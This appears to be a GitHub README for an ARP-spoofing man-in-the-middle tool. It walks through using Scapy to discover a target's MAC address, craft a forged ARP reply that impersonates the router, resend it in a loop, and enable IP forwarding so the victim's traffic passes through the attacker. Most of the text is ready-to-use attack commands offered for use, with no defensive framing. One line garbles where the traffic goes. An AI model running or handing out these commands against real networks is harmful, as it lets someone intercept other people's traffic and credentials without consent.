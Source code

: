 # ArpSpoof-MITM-Framework

---------------------------------------------------------Dappt---------------------------------------------------------

Script Usage (attack on a network with 3 machines: router, attacker, target):

        [-] Attacker sends ARP request to broadcast (everyone on LAN) in order to receive a response from someone who knows
            where the target machine is located 
            
            --> This request contains the broadcast address and the
                IP address of the target machine 
            
            --> The request essentially asks everyone on the network (through the broadcast address) who has {targetIP}? 
                Hopefully a machine on the network who knows the location (MAC address of target machine) will respond with the 
                information we are looking for --> the target machines MAC address

        [-] Now that we have the MAC address of the target machine we can use it to craft a malicious packet that will tell
            the target machine that our MAC address is the same as the routers MAC address
            
            --> This will cause every outgoing packets from the target machine will be sent to both the router and the target
                machine
    
    Some useful Scapy commands:

        [-] ls(ARP) --> will list all fields required by an ARP packet
        
        [-] important fields: op, hwsrc,psrc, hwdst, pdst
        
        [-] packet = ARP(pdst='<TARGET IPADDR>') --> set pdst (destination address) to TARGETS IPADDR
        
        [-] packet.show --> show the current state of the packet being crafted
        
        [-] packet.op = 1 --> sending request --> "who has ..."
        
        [-] packet.op = 2 --> sending response

    Methodology: 

        [-] Send arp request through the broadcast MAC address, every machine on the LAN will receive 
            request and possibly send the reply
        
        [-] Impacket (manually):
            
            Getting mac address of target machine w/ spoofed ARP request :
            
                [-] broadcast = Ether(dst='ff:ff:ff:ff:ff:ff') --> Broadcast Address
                
                [-] arp_layer = ARP(pdst='{TARGETIP}')
                
                [-] entire_packet = broadcast/arp_layer --> combines arp_layer and broadcast layer into packet
                
                [-] answer = srp(entire_packet, timeout=2, verbose=True)[0] --> sending request to broadcast
                
                [-] print(answer) --> will show request and response if any received
                
                [-] print(answer[0])
                
                [-] target_mac_address = answer[0][1].hwsrc --> get mac address of target                                                                                                                                                                                                                                                                                  
                
                [-] print(target_mac_address)

            Craftinfg Malicious packet:

                [-] We are essentially going to craft a packet that will tell the target machine that
                    the attacker machine is a router, so it sends all of its packets to the attacker machine
                
                [-] packet = ARP(op=2, hwdst=target_mac_address, pdst='192.168.0.131', psrc='192.168.0.1')
                    
                    --> psrc is address of machine we want to impersonate (router)
                    --> run `netstat -nr` in terminal to find addr of router on your network (gateway)
                
                [-] packet.show() will show the contents of our malicious packet
                
                [-] send(packet, verbose=False) --> sends malicious packet to spoof targets ARP table
            
            Arp-tables on target machine:

                [-] You can run the command `arp -a` on the target machine before sending the malicious packet, 
                    and again after sending the malicious packet to confirm if we successfully spoofed the arp
                    tables on the target machine

[!] Script should be run in a while loop to continuosly spoof the targets arp tables since the target machine will also still 
    send the same ARP requests we are sending still

[!] If the target machine is unable to access the internet after it has been spoofed then you may need to run this command on your 
attacker machine to forward the packets: 

    [-] echo 1 >> /proc/sys/net/ipv4/ip_forward                                                                                                                                                                                                                                                                            



---------------------------------------------------------Dappt---------------------------------------------------------
